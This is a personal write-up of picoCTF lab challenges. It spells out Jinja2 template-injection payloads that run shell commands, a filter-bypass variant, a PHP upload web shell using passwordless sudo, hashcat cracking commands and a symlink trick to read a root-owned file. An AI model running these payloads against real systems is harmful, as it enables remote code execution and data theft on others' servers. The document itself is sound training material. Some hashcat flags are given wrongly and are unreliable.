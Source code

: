 # My picoCTF exercises

## [My picoCTF profile](https://play.picoctf.org/users/RedZunder)
- [Web exploitation](#web-exploitation)
- [Cryptography](#cryptography)
- [Reverse engineering](#reverse-engineering)
- [General Skills](#general-skills)


# Web Exploitation
<details open>
  <summary>SSTI1</summary>
  
  Entering the target website, we find an input field which 'announces' the user input. As inferred from the title of this CTF, we are looking to Server Side Template Injection.
  Using this workflow from [Cobalt](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti):
  ![image](https://github.com/user-attachments/assets/64991461-7402-4241-959a-9405862694a3)

  `$(7*7)` simply returns that literal string. Writing `{{7*7}}`, however, returns `49`. Sending `{{7*'7'}}` gives back `7777777`, suggesting the server might be running **Jinja2**.
  Now we can run commands like this one: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to see the files in the directory. Doing this we find a `flag` file.
  Naturally, we try to read this file: `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}` which returns the flag successfully.  
</details>

<details open>
<summary>SSTI2</summary>
  
Extending the previous exercise, now the machine has sanatized some input, although not all of it. Trying `{{request.application}}` does not work, and we are told to "stop trying to break me". So let's try to break it. 

We'll use `{{request|attr('application')}}`, which succesfully gives us an answer: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`.
Trying with `{{request|attr('application')|attr("__globals__")}}` doesn't work, so we'll replace the underscore by its hex value `\x5f`: `{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")}}` which gives the right information. 

Substituting '__import__' by `\x5f\x5fgetitem\x5f\x5f` we can obtain the rest of attributes. Then, replicating the `ls` command in the previous exercise:

```
{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr('popen')('ls')|attr('read')()}}
```
Which shows a file `flag`. We can obtain its contents with `cat flag`:
```
{{request|attr('application')|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr('popen')('cat flag')|attr('read')()}}
```
</details>







<details open>
<summary>n0s4n1ty 1</summary>

When entering the machine, we are presented a page where the user can upload a profile picture. First we will try to exploit this by checking if the input is sanitized. Trying to upload some `test.txt` file, and navigating to `/uploads/test.txt` as indicated by the upload page, we see the input is indeed not sanitized, since we are able to upload _any_ type of file. Next, we start trying differet commands in a `php` file:
```php
<?php

echo getcwd();

?>
```
which successfully returns the path `/var/www/html/uploads` . Knowing the structure, we try `ls /` and see where the `root` folder is. Now we can test if we may be able to `sudo` commands. Adding `sudo -l` we obtain:
```
...
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
Meaningg we can `sudo` whatever we want. So, we attempt `echo shell_exec('sudo ls /root')` and find `flag.txt` in that folder. 

Finally, adding the line `echo shell_exec('sudo cat /root/flag.txt')` gives us the flag.
</details>















# Cryptography

<details open>
<summary>Hashcrack</summary>
  
When we use _netcat_ to get the server, we are given a hash. Checking its length, we see it's 32 characters, or 128 bits, typical of MD5. 

Using ```hashcat -m 0 -a 0 <hash> /usr/share/wordlists/rockyou.txt``` we crack the password pretty quick.
The next hash is 40 char long, or 160 bits. Trying first with SHA-1, ```hashcat -m 0 -a 100 <hash> /usr/share/wordlists/rockyou.txt``` we again obtain the password. 

One last time, the hash is of length 64, or 256 bits. Supposing it's SHA-256 and running the same command with ```-a 1400```, we obtain the flag.

</details>

<details open>
<summary>Even RSA can be broken</summary>
  
First we use _netcat_ to get the encrypted flag, 'N' and 'e'. Looking at the source code provided, we see how the RSA keys are calculated.
```python
def gen_key(k):
    """
    Generates RSA key with k bits
    """
    p,q = get_primes(k//2)
    N = p*q
    d = inverse(e, (p-1)*(q-1))

    return ((N,e), d)
```
From the library `Crypto.Util.number` we can make use of `inverse` to reverse this encryption.
```python
#We obtain the prime factors of N
(p,q)=factorint(N)

#We calculate phi, needed for the next step
phi=(p-1)*(q-1)

#We get the inverse modulo, from the algorithm:  (d*e) % phi = 1
d=inverse(e,phi)

#Finally obtain the flag -> From the source code:  pow(bytes_to_long(flag.encode(utf-8)),e,N) so we reverse it
flag=long_to_bytes(pow(cypher,d,N)).decode()
```
  
</details>





# Reverse Engineering
<details open>
<summary>Flag Hunters</summary>
  
We use _netcat_ to communicate with the server and download the Python source code. Checking the code, we observe:

```python
elif re.match(r"CROWD.*", line):
    crowd = input('Crowd: ')
    song_lines[lip] = 'Crowd: ' + crowd
```
Which allows the user to enter anything, including commands.
We can also find:

```python
elif re.match(r"RETURN [0-9]+", line):
    lip = int(line.split()[1])
```
Which returns to the beginning of one of the paragraphs from 0 to 9. The flag is stored in paragraph 0, which is not shown.
We can then inject the code ```blablabla; RETURN 0``` in order to trigger the RETURN case, and thus obtain the flag in plaintext.


</details>



# General Skills

<details open>
<summary>Plumbing</summary>
  
This challenge is trivial: simply `nc` to the machine and obtain a large text, then I used `| grep 'pico'` and obtained the flag.

<details open>
<summary>Based</summary>

Also a trivial challenge, we must translate from binary, octal and hex to ascii within 45 seconds. I simply used online tools to translate the inputs, and obtain the flag.

</details>

<details open>
  <summary>dont-you-love-banners</summary>
  
  For this task we use `netcat` first to a 'leaking' server, which gives us a password in plain text.
  Next, we `nc` to the target machine, which prompts us for the password, which we obtained from the other machine. After answering some questions, we find ourselves in the shell:

![image](https://github.com/user-attachments/assets/c93fe9bc-4517-4866-983d-dc2146794efc)

Poking around we find the root folder which contains the flag:
```shell
$ls /root
> flag.txt  script.py
```
However we don't have permissions to open the flag. Doing `cat script.py` we find the reference to another file:
```python
with open("/home/player/banner", "r") as f:
        print(f.read())
```
So we only need to replace the `banner` file for `flag.txt`. For that we use a _symlink_. Travelling to the `player` folder which contains the banner:  `rm banner; ln -s /root/flag.txt banner`
This swaps the banner for a file pointing to our flag. Now we can use `netcat` again to contact the server, and we get the flag in plaintext.

</details>
















